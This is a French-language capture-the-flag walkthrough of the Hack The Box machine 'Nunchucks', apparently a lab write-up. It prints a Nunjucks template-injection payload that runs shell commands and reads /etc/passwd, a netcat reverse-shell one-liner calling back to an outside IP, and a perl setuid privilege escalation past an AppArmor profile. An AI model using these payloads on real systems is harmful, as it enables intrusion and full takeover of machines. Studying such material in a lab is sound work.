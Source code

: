 # Nunchucks - Easy

```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-16 21:20 EDT
Nmap scan report for 10.10.11.122
Host is up (0.023s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 6c:14:6d:bb:74:59:c3:78:2e:48:f5:11:d8:5b:47:21 (RSA)
|   256 a2:f4:2c:42:74:65:a3:7c:26:dd:49:72:23:82:72:71 (ECDSA)
|_  256 e1:8d:44:e7:21:6d:7c:13:2f:ea:3b:83:58:aa:02:b3 (ED25519)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to https://nunchucks.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
|_http-title: Nunchucks - Landing Page
| ssl-cert: Subject: commonName=nunchucks.htb/organizationName=Nunchucks-Certificates/stateOrProvinceName=Dorset/countryName=UK
| Subject Alternative Name: DNS:localhost, DNS:nunchucks.htb
| Not valid before: 2021-08-30T15:42:24
|_Not valid after:  2031-08-28T15:42:24
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.98 seconds
```

On rajoute à notre /etc/hosts pour accéder à [https://nunchucks.htb/](https://nunchucks.htb/). On lance un gobuster en tâche de fond. Avec vhost on trouve le sous domaine store

Il y a une page de signup donc on tente sqlmap.

Le champ d’adresse mail est dynamique sur le site du store, c’est le seul élément du site, on essaye des templates. C’est du node.js.

[https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jade-nodejs](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#jade-nodejs)

Il y a un template pour nunjucks, ce qui nous fait fortement penser au nom de la box donc on test:

```bash
{{7*7}}
```

ça donne bien 49

On essaye donc:

```bash
{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}
```

On utilise burp pour lancer la requête et on obtient bien le /etc/passwd. On peut obtenir le flag user en tant que david.

On essaye direct de lancer un reverse shell. Une commande directe ne fonctionne pas donc on essaye d’autre payloads classique et celui-ci fonctionne:

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.16.6 9090 >/tmp/f
```

On upload linpeas.sh, on remarque direct ça dans l’output:

```bash
/usr/bin/perl = cap_setuid+ep
```

[https://gtfobins.github.io/gtfobins/perl/](https://gtfobins.github.io/gtfobins/perl/)

```bash
/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Cela ne fonctionne mais alors que on peut avoir id par exemple. On check dans l’apparmor et on voit ce passage pour perl:

```bash
/usr/bin/perl {
  #include <abstractions/base>
  #include <abstractions/nameservice>
  #include <abstractions/perl>

  capability setuid,

  deny owner /etc/nsswitch.conf r,
  deny /root/* rwx,
  deny /etc/shadow rwx,

  /usr/bin/id mrix,
  /usr/bin/ls mrix,
  /usr/bin/cat mrix,
  /usr/bin/whoami mrix,
  /opt/backup.pl mrix,
  owner /home/ r,
  owner /home/david/ r,

}
```

Ce fichier définit les accès. Grâce à ce bug s’il on écrit la commande dans un fichier ça fonctionne et on obtient un shell root ! 

[https://bugs.launchpad.net/apparmor/+bug/1911431](https://bugs.launchpad.net/apparmor/+bug/1911431)